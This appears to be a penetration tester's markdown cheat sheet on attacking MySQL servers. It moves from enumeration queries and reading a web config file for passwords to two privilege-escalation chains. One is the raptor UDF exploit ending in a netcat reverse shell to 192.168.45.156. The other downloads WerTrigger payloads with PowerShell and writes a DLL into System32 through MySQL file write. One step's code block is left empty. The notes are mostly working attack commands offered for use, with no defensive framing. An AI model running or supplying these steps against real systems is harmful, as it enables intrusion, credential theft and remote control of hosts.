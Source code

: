 #scripts #database

### Basic Commands

```sql
select version();
```

```sql
select system_user();
```

```sql
show databases;
```

```sql
use data;
```

```sql
select * from Users WHERE u = 'h';
```

### Connect

```bash
mysql -h 127.0.0.1 -u root -P 30000
```
### Find the passwords

```bash
cat /var/www/config.php
```
### MYSQL Shell from Credentials

#### When you have access to the MYSQL/PHPMyadmin

1. FInd or guess the webroot ( In phpinfo.php document_root)
2. Create a database
3. Execute the below query
```bash

```

#### With Raptor(Mostly linux since compiling is needed) 
1. Confirm the vulnerability, and mysql service will be running as root
```bash
ps aux | grep mysql
```
2. Check the version(Vulnerable 5.7.30 and below)
```bash
select @@version
```
3. Create the exploit
```bash
searchsploit -m 1518
```
transfer file to victim if doesn't have compilation rights do it in kali

```bash
wget http://192.168.45.156:21/1518.c
```

```bash
gcc -g -c 1518.c -o raptor_udf.o -fPIC
```

```bash
gcc -g -shared -Wl,-soname,raptor_udf.so -o raptor_udf.so raptor_udf.o -lc
```

```bash
chmod 777 raptor_udf.so
```
4.  Time to exploit
```bash
 mysql --host=127.0.0.1 -u root -p 
```

```bash
use mysql;
```

```bash
create table foo(line blob);
```

```bash
insert into foo values(load_file('/dev/shm/raptor_udf.so'));
```

```bash
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf.so';
```

```bash
create function do_system returns integer soname 'raptor_udf.so';
```

```bash
select do_system('/bin/nc -e /bin/bash 192.168.45.156 8080');
```

#### With Privileged File Write

1. Test if its working
```mysql
select load_file('C:\\test\\nc.exe') into dumpfile 'C:\\test\\shell.exe';
```
2. get the files to victim
```powershell
iwr -uri http://192.168.45.228:80/nc.exe -OutFile ./nc.exe
```

```powershell
iwr -uri http://192.168.45.228:80/WerTrigger/bin/phoneinfo.dll -OutFile ./phoneinfo.dll
```


```powershell
iwr -uri http://192.168.45.228:80/WerTrigger/bin/Report.wer -OutFile ./Report.wer
```


```powershell
iwr -uri http://192.168.45.228:80/WerTrigger/bin/WerTrigger.exe -OutFile ./WerTrigger.exe
```

3. Write the file to system32 directory
```mysql
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";
```
4. Execute the wertrigger file

🔴 All three files should be in the same directory
```powershell
.\WerTrigger.exe
```

